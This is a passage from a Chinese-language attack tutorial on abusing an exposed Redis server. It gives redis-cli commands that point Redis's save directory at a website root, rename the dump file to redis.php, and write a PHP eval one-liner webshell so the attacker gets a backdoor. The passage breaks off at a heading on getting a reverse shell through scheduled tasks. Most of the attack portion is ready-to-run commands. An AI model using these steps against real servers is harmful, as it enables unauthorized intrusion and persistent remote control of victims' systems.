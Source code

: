 ```
config set dbfilename redis.php
```

将保存的文件名修改为redis.php

```
save
```

执行存储规则



因此可以利用该功能实现向任意目录写入任意功能





### redis webshell提权

#### 利用cli连接目标

```
redis-cli -h 192.168.142.66 -p 6379
```

#### 动态修改配置实现写入一句话木马

```
config set dir /www/admin/localhost_80/wwwroot
```

```
config set dbfilename redis.php
```

```
set x "<?php @eval($_POST[ra1n3];?>"
```

```
save
```

#### 解释：

这一段是将数据保存的目录修改至目标网站目录，将保存的文件修改为php脚本

并往其中写入一句话木马（键随意，值为一句话木马）

接着保存



即可实现往目标网站写入一句话木马实现后门连接

如果找不到目标根路径或者对方没有开放HTTP服务





### 定时任务反弹shell
